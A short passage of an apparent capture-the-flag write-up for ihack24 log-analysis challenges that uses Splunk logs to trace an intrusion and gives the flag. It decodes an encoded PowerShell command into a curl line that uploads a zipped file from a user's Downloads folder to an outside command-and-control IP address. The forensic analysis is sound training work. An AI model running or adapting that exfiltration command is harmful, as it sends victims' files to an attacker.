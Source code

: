 ![](splunking7.png)

Again, looking at the same log, there was also encoded powershell command executed in order to exfiltrate the data from the host desktop to the attacker’s **C2 server (Command and Control)**.

![](info9.png)

Decode the encoded strings from **decimal to ascii**.

Decoded strings:
```
cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Downloads\DESKTOP-97O75B7U.zip
```

> **Flag:** ihack24{DESKTOP-97O75B7U.zip}

## SPLUNKing 8
